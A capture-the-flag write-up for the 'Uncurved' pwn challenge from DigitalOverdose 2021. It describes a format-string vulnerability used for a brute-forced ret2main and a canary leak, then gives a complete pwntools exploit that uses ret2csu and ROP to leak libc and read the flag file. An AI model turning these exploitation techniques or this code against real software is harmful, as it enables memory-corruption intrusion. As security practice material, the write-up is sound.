 ### **Uncurved**

was a pwn challenge from DigitalOverdose 2021 CTF,

it is a remake from "Curve" a pwn challenge from PBJarCTF 2021, written by Rythm.

basically, it is a format string on heap, with a seccomp to forbid execve onegadgets...

I did not participate to DigitalOverdose CTF because I wasn't there, I did it after the the CTF ends, just to practice..

Here is my solution so..

**let's check first the protections of the binary:**

![](https://github.com/nobodyisnobody/write-ups/raw/main/DigitalOverdose.2021/pwn/uncurved/pics/checksec.png)

**and let's check also the seccomp in place:**

![](https://github.com/nobodyisnobody/write-ups/raw/main/DigitalOverdose.2021/pwn/uncurved/pics/seccomp.png)

As you can see, only open, read, write, are usefull for us...the rest is forbidden..

**let's reverse the program to see the vuln:**

![](https://github.com/nobodyisnobody/write-ups/raw/main/DigitalOverdose.2021/pwn/uncurved/pics/reverse.png)

Unlike the original "Curve" challenge, the first input from user, at 'Input 1:',  is zero terminated this time,

and the buffer s[] on stack is filled with zeroes, so we can not leak an address on stack like in "Curve"

There is still a big buffer overflow, in the "Input 1" , but as there is a canary in place, we can not use it directly..

The last "Input 3:" , is directly passed to printf(),  so there is a format string vulnerability here as in the original challenge.

So our strategy will be to first try to do a ret2main, with the format string vulnerability, and to leak the canary at the same time...

then when the ret2main will succeed, we can simply do a open/read/write ROP, to dump the flag with the "Input 1" buffer overflow,

as we will know the canary value at this time..

to do the ret2main, we will use a classic strategy for format string on heap...

**let's examine the stack state just before the last printf() where the format string vuln is:**

![](https://github.com/nobodyisnobody/write-ups/raw/main/DigitalOverdose.2021/pwn/uncurved/pics/stack.png)

In red, you can see on the picture above, the _libc_start_main+234,  where the program will return after main() function.

it is at format string pos 27,  and just after it at pos 28, there is a pointer to &argv[0] on stack (which is at pos 57)

so we will use a format string to write to pos57 two last lsb bytes, with the pointer 28

and we will bruteforce the 12bits of ASLR, to make pointer 57 points on stack pos 27 (the return address)

then we will write 0x03 byte to return address to return at _libc_start_main+227,

that will call main again.. a ret2main so...

as always with format string you can not access stack positions with positional notation, because at the moment you use positionnal notation, 

the printf function will take a snapshot of the stack state, and any modifications you will made , will not be taken into account... 

so you have, to progress in stack pointers position using %c to pass to next position...

then when you have modified the stack as you want.. you can use positionnal position..(at the end of the format string in general)


but you have to increase pos, one by one with '%c'..

the bruteforce will not take too much time, depending on your connection speed, server responsiveness, and luck... (minutes probably, less than an hour for sure..)

at the end of our format string, we will add '%25$p' to leak canary value that is at pos 25.

When the ret2main will succeed, we will receive again the 'Input 1:' string...with the canary value..

next part is just a classic ROP...

**here is a successfull session for example:**

![](https://github.com/nobodyisnobody/write-ups/raw/main/DigitalOverdose.2021/pwn/uncurved/pics/gotflag.png)


**and here is the code of the exploit:**

```python3
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'error'

exe = ELF('./uncurved')
libc = ELF('./libc.so.6')
r = ROP(exe)

host, port = "193.57.159.27", "46219"

count=0
# we are trying a ret2main, and a leak of canary at the same time
# bruteforce 12bits of ASLR , 1/4096 chance to success.. 
# server answers quick but could take time depending on luck
#
print('ASLR bruteforce starts...')
while (count<10000):
  print(str(count))
  if args.REMOTE:
    p = remote(host,port)
  else:
    p = process(exe.path)

  offset = 1
  p.sendafter('Input 1:\n', 'a'*(offset*8))
  p.sendafter('Input 2:\n', 'a'*(offset*8))

  payload = '%c'*26+'%5758c'+'%hn'+'%c'*27+'%80c'+'%hhn'+'%25$p'
  p.sendafter('Input 3:\n', payload)
  try:
    buff=p.recvuntil('Input 1:\n', timeout=3)
    break
  except:
    p.close()
    count += 1

# get our canary leak
print(buff)
off = buff.find('0x')
canary = int(buff[off:off+18],16)
print('canary = '+hex(canary))

payload = 'A'*0x88+p64(canary)+p64(0xdeadbeef)

# ret2csu gadgets
set_csu = next(exe.search(asm('pop rbx; pop rbp; pop r12; pop r13; pop r14; pop r15; ret'), executable = True))
call_csu = next(exe.search(asm('mov rdx, r14; mov rsi, r13; mov edi, r12d')))
def do_ret2csu(edi=0,rsi=0,rdx=0, func=0, rbx=0,rbp=0,r12=0,r13=0,r14=0,r15=0):
   global set_csu
   global call_csu
   return p64(set_csu)+p64(0)+p64(1)+p64(edi)+p64(rsi)+p64(rdx)+p64(func)+p64(call_csu)+p64(0)+p64(rbx)+p64(rbp)+p64(r12)+p64(r13)+p64(r14)+p64(r15)


buff = exe.bss(0xa00)	# a buffer in bss

# 1st ROP payload -->  leak puts libc address & read second ROP payload in bss & pivot to it
r.puts(exe.got['puts'])
r.raw(do_ret2csu(0,buff,0x100,func=exe.got['read']))
r.migrate(buff+24)
p.send(payload+r.chain())

p.sendafter('Input 2:\n', 'a')
p.sendafter('Input 3:\n', 'ab')

# get our libc leak & calculate libc base
p.recvuntil('Rythm.\n', drop=True)
libc.address = u64(p.recvuntil('\n',drop=True).ljust(8,'\x00')) - libc.symbols['puts']
print('libc base = '+hex(libc.address))

# second ROP payload open flag.txt / read it / dump it
if args.REMOTE:
  payload2 = '/srv/app/flag.txt'.ljust(24,'\x00')
else:
  payload2 = './flag.txt'.ljust(24,'\x00')
rop2 = ROP(libc)
syscall = rop2.find_gadget(['syscall', 'ret'])[0]
xchg_eax_edi = libc.address + 0x000000000012a03c # xchg eax, edi ; ret
rop2(rax=2)
rop2.call(syscall,[buff,0,0])
rop2.raw(p64(xchg_eax_edi))
rop2(rsi=0x404100,rdx=0x100)
rop2.call(exe.symbols['read'])
rop2.call(exe.symbols['puts'], [0x404100])
p.send(payload2+rop2.chain())

p.interactive()
```

*nobodyisnobody still pwning things...*

